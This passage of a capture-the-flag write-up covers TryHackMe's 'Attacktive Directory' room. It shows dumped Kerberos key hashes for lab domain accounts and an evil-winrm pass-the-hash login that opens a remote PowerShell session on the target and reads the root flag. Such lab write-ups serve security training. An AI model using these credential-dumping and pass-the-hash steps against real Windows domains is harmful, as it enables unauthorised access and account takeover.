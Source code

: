 ```sh                                                                                                               
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:a******************************f
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:2**************************************************************2
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:c**************************************************************2
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:3******************************8
spookysec.local\a-spooks:des-cbc-md5:e**************9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:f**************************************************************6
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:f******************************5
ATTACKTIVEDIREC$:des-cbc-md5:1**************d
[*] Cleaning up... 
```


# Elevating Privilages

Now we got the hashes we can try to login in to the target. 
I used for the first time "Evil-WinRM" this is very powerfull tool. i have to explain in more detail when i used it more. 

But for this room i followed the instaruction ont the github page. 

We can login with the has of the a***********r to the target and then get all the flags of the other user. 

```sh                                                                                                                
┌──(fr3akazo1d💀fr3ak0ut)-[~/Pen-Testing/THM/Boxes/AttacktriveDirectory]
└─$ evil-winrm -u a***********r -H 0******************************c -i 10.10.124.175                            127 ⨯

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint


*Evil-WinRM* PS C:\Users\A***********r\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\A***********r\Desktop> ls


    Directory: C:\Users\A***********r\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  11:39 AM             32 root.txt


*Evil-WinRM* PS C:\Users\A***********r\Desktop> more root.txt
T******************************}

*Evil-WinRM* PS C:\Users\A***********r\Documents> cd ../../
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/17/2020   4:04 PM                a-spooks
```